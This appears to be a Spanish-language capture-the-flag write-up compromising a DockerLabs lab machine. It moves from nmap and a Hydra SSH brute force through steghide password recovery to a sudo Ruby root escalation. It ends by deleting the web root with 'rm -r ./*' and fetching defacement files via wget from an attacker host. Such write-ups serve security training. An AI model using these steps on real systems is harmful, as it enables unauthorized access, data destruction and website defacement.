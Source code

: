 
![[20250808115256.png]](amor-images/20250808115256.png)

# Fase de reconocimiento

Primero realizamos un escaneo basico con nmap

```bash
nmap -p- --open -min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts
```

Una vez tenemos los puertos abiertos vamos a realizar un segundo escaneo con scripts basicos de nmap para ver el servicio y la version que corren por detras 

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN targeted
```

![[20250808115450.png]](amor-images/20250808115450.png)

Una vez sabemos esto vamos a empezar la investigación por el puerto 80 la pagina web http 

![[20250808115526.png]](amor-images/20250808115526.png)

a priori parece que es una especie de portal de comunicación entre los empleados de la empresa.

Leyendo los mensajes podemos ver lo siguiente

![[20250808115625.png]](amor-images/20250808115625.png)

Vemos que hay un usuario llamado Carlota, posteriormente vemos que se han detectado contraseñas vulnerables por lo que vamos a tratar de hacer un ataque de diccionario con hydra

# Fase de explotación

```bash
hydra -t 64 -l carlota -P /usr/share/wordlists/rockyou.txt -s 22 172.17.0.2 ssh
```

Descubrimos que las credenciales son carlota:babygirl

asi que nos conectamos por ssh a carlota con la contraseña babygirl.

```bash
ssh carlota@172.17.0.2
```

![[20250808120136.png]](amor-images/20250808120136.png)

una vez estamos dentro como el sistema por defecto usa una sh vamos a cambiarla por una bash y vamos a exportar el TERM a xterm

```bash
/bin/bash
```

```bash
export TERM=xterm
```

ahora si de manera mas cómoda vamos a buscar la escalada de privilegios.

# Fase de post explotación

como el usuario carlota probamos como siempre los siguientes comandos:

```bash
sudo -l
```

![[20250808120338.png]](amor-images/20250808120338.png)

no sacamos nada.

```bash
find / -perm -4000 2>/dev/null
```

![[20250808120417.png]](amor-images/20250808120417.png)

no vemos nada interesante.

tras buscar un poco con comandos no vemos nada relevante asi que vamos a explorar las rutas del sistema.

en el directorio `/home/carlota/Desktop/fotos/vacaciones` vemos que hay una imagen.jpg igual en los metadatos de la imagen vemos algo. para conseguir la imagen yo seguí este proceso.

1- Desde la maquina victima en el directorio mencionado 

```bash
python3 -m http.server 8081
```

2-desde la pagina web vamos a la Url `http://172.17.0.2:8081/imagen.jpg` y descargamos la imagen

![[20250808120720.png]](amor-images/20250808120720.png)

una vez la tenemos en nuestra maquina atacante vamos a buscar metadatos

3- usamos steghide para ver que hay en la imagen por detras

```bash
steghide info imagen.jpg
```

![[20250808120914.png]](amor-images/20250808120914.png)

Nos solicitan un passphrase pulsamos enter sin poner nada ya que no solicita credenciales reales 


vemos que contiene un archivo llamado `secret.txt` asi que vamos a extraerlo

4-usamos steghide para extraer el archivo 

```bash
steghide extract -sf imagen.jpg
```
![[20250808121101.png]](amor-images/20250808121101.png)

a mi me pone que ya existe por que lo hice antes pero se debería descargar en vuestro equipo el archivo `seecret.txt`

hacemos un cat para ver que contiene y descubrimos esto 

![[20250808121150.png]](amor-images/20250808121150.png)

contiene un codigo en base64 que vamos a desencriptar para descubrir lo que oculta

```bash
echo 'ZXNsYWNhc2FkZXBpbnlwb24=' |base64 -d
```

![[20250808121232.png]](amor-images/20250808121232.png)

tenemos una aparente contraseña `eslacasadepinypon` pero aun no sabemos donde usarla asi que vamos a seguir explorando con carlota el sistema

![[20250808121336.png]](amor-images/20250808121336.png)

vemos que hay un usuario llamado oscar asi que vamos a probar si la contraseña le pertenece a el 

```bash
su oscar
```

contraseña `eslacasadepinypon`

![[20250808121426.png]](amor-images/20250808121426.png)

vemos que si, vamos a exportar la shell a una bash

```bash
/bin/bash
```

# Escalada de privilegios

ahora utilizamos el comando 

```bash
sudo -l
```

con la intención de ver si tenemos permisos de sudo en algún binario

![[20250808121517.png]](amor-images/20250808121517.png)

vemos que tenemos permisos sudoers en el binario ruby asi que buscamos en GTFObins que podemos hacer

![[20250808121605.png]](amor-images/20250808121605.png)

aqui vemos que con un sencillo codigo podemos escalar a root asi que vamos a probarlo 

```bash
sudo ruby -e 'exec "/bin/bash"'
```

![[20250808121723.png]](amor-images/20250808121723.png)

y conseguimos acceso como root

# Extra

Como siempre en las maquina DockerLabs vamos a poner nuestra firma esto lo enseñamos a hacer en la maquina chocolate 

vamos a modificar la pagina html para dejar una huella diciendo que hemos estado aqui y hemos vulnerado la maquina 

en nuestra maquina atacante donde tengamos nuestro html personalizado abrimos un puerto web con python

```bash
python3 -m http.server 8081
```

en la maquina victima ya como root vamos al directorio `/var/www/html`

```bash
cd /var/www/html
```

y una vez ahi realizamos el siguiente comando para borrar la informacion 

```bash
rm -r ./*
```

una vez hecho esto vamos a descargarnos nuestro archivo html y la imagen que necesitamos

```bash
wget http://192.168.1.182:8081/index.html -O index.html && wget http://192.168.1.182:8081/panda.png -O panda.png
```

ahora vamos a la pagina web al index.html recargamos la pagina y vemos nuestra firma

![[20250808122216.png]](amor-images/20250808122216.png)
